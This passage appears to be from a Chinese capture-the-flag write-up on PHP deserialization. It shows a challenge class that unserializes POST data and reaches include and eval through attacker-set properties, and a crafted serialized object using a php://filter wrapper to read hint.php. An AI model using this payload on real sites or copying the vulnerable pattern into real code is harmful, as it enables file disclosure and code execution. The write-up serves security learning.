 ```php
        }
    }

    public function Givemeanew(){
        $this -> un4 = new $this->un0($this -> un1);//将un0的参数实例化赋值给un4
    }

    public function yigei(){
        echo 'Your output: '.$this->un4;//打印un4的值
    }
    
    public function giao(){
        @eval($this->un2);//代码执行函数
    }
    
    public function __wakeup(){
        include $this -> un2.'hint.php';//文件包含函数
    }
}

$data = $_POST['data'];
unserialize($data);
```

发现有一个hint文件，先用伪协议去读这个文件

```php
<?php
highlight_file(__FILE__);

class a{
    public $un2="php://filter/read=convert.base64-encode/resource=";
    public function __wakeup(){
        include $this -> un2.'hint.php';
    }
}
$a=new a;
echo serialize($a);
//O:1:"a":1:{s:3:"un2";s:49:"php://filter/read=convert.base64-encode/resource=";}
```

![image-20220522125410541](/upload/img/image-20220522125410541.png)

